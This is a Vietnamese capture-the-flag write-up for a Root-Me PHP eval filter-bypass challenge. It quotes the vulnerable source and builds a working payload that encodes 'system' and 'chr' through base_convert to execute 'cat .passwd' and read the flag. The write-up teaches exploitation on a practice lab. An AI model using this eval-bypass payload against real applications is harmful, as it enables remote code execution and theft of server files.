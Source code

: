 # PHP Eval

**Tên challenge:**  Basics of calculus

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval-Advanced-filters-bypass)

**Tác giả challenge:** Podalirius

**Mục tiêu challenge:** This calculator web application has filters to prevent code execution, prove you can bypass them by retreiving the flag !

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Challenge cung cấp cho ta Source Code và Website có giao diện khá đơn giản, chỉ có 1 tính năng Input tính toán duy nhất:

![alt text](./images/image.png)

Ta thử click vào Button `Give me the result !` thì Website trả về kết quả sau:
```
string(3) "1+1"
2
```

**B2:** Ta bắt đầu đi sâu vào Source Code mà Challenge cung cấp để hiểu rõ về cách hoạt động của nó:
```
<?php
 
error_reporting(0);
 
function safe_eval($calculus) {
   preg_match_all("/([a-z_]+)/", strtolower($calculus), $words);
   $words = $words[0];
 
   $accepted_words = ['base_convert', 'pi'];
   $alphabet = str_split('_abcdefghijklmnopqrstuvwxyz0123456789.+-*/%()[],');
 
   var_dump($calculus);
 
   $safe = true;
   for ($i = 0; $i < count($words); $i++) {
       if (strlen($words[$i]) && (array_search($words[$i], $accepted_words) === false)) {
           $safe = false;
       }
   }
 
   for ($i = 0; $i < strlen($calculus); $i++) {
       if (array_search($calculus[$i], $alphabet) === false) {
           $safe = false;
       }
   }
 
   if (strlen($calculus) > 256) return "Expression too long.";
   $ans = '';
   if (($safe) === false) $ans = "This calculus is not safe.";
   else eval('$ans=' . $calculus . ";");
   return $ans;
}
?>
 
<!DOCTYPE html>
<html lang="fr">
    <head>
        <meta charset="UTF-8">
        <link type="text/css" rel="stylesheet" href="./style.css">
        <title>PHP - Advanced filters bypass</title>
    </head>
 
    <body>
        <div class="content">
            <h2>PHP - Advanced filters bypass</h2>
            <br>
            <p>You can access the <a href="./?source">source code</a>.</p>
            <form class="" action="index.php" method="post">
                <table style="width:100%">
                    <tr>
                        <td><input class="forminput" type="text" name="calculus" value="1+1" size=50></td>
                    </tr>
                    <tr>
                        <td><button class="formsubmitbutton" type="submit">Give me the result !</button></td>
                    </tr>
                    <?php if (isset($_POST['calculus'])) : ?>
                    <tr> <td><br/></td> </tr>
                    <tr>
                        <td class="result">
                            <code style="width:100%;white-space: pre-wrap;"><?= @safe_eval($_POST['calculus']) ?></code>
                        </td>
                    </tr>
                    <?php endif ?>
                </table>
            </form>
        </div>
    </body>
</html>
```
Dựa vào Source Code, ta có thể xác định ngay lổ hổng nằm ở đoạn:
```
eval('$ans=' . $calculus . ";");
```
<u>**Giải thích:**</u>
* Hàm `eval` trong PHP là một hàm đặc biệt cho phép thực thi mã PHP được truyền dưới dạng chuỗi.

**VD:**
```
$code = 'echo "Hello, World!";';
eval($code);  // Kết quả: Hello, World!
```

Thông thường đến đây, ta chỉ việc đưa vào input `1; system("cat .passwd")` thì đoạn code `eval` trong Source sẽ có dạng:
```
eval("$ans= 1; system("cat .passwd"); ")
```

Tuy nhiên, ta không thể nhập bất kỳ chữ cái nào khác ngoài hai từ được cho phép là `base_convert` và `pi`, ngoài ra 1 số các ký tự sau vẫn được phép sử dụng:
```
0123456789.+-*/%()[],
```
=> Ta không thể inject input payload trên.

Vậy thì ta phải làm sao để thực thi được Command và đọc file `.passwd` nếu không thể nhập được chữ cái hay không thể dùng các ký tự như `$` hay `_` để sử dụng phương pháp tạo Webshell mà không cần chữ cái ?

<u>**Trả lời:**</u>
* Sau khi đọc và tìm hiểu thì ta thấy có thể lợi dụng hàm `base_convert` mà ứng dụng cho phép nhập. Cụ thể hàm `base_convert` có thể giúp ta chuyển ký tự cần thiết sang số thập phân rồi từ đó tạo thành hàm cần dùng.

**VD:**
```
echo base_convert("system", 36, 10)
=> 1751504350

echo base_convert(1751504350, 10, 36)
=> system
```

Về cơ bản thì bạn có thể hiểu lệnh đầu tiên là chuyển chữ `system` từ cơ số 36 sang cơ số thập phân và lệnh thứ hai là đảo ngược lại.

Tuy nhiên, có 1 vấn đề khác là hàm `base_convert()` chỉ chuyển đổi được các ký tự từ `[a -> z]` và `[0 -> 9]`, nhưng trong Command của mình chắc chắn phải sử dụng các ký tự khác như `space` hoặc dấu `/`,... Thế thì phải làm sao ?

Đơn giản thôi, như ở trên ta có thể dùng hàm `system`, vậy thì  tương tự ta cũng có thể dùng hàm `chr()` để in ra ký tự ta cần.

**VD:**
```
echo base_convert("chr", 36, 10)
=> 16191

echo base_convert(16191, 10, 36)(46) // chr(46)
=> .
```
Do `chr(46)` là dấu `.`

**B3:** Từ hướng đi trên, ta có thể tạo được payload `system(cat .passwd)` như sau:
```
base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(46).base_convert(1529794381,10,36))
```

![alt text](./images/image-1.png)

=> Vậy là ta đã thành công đọc được `Flag`.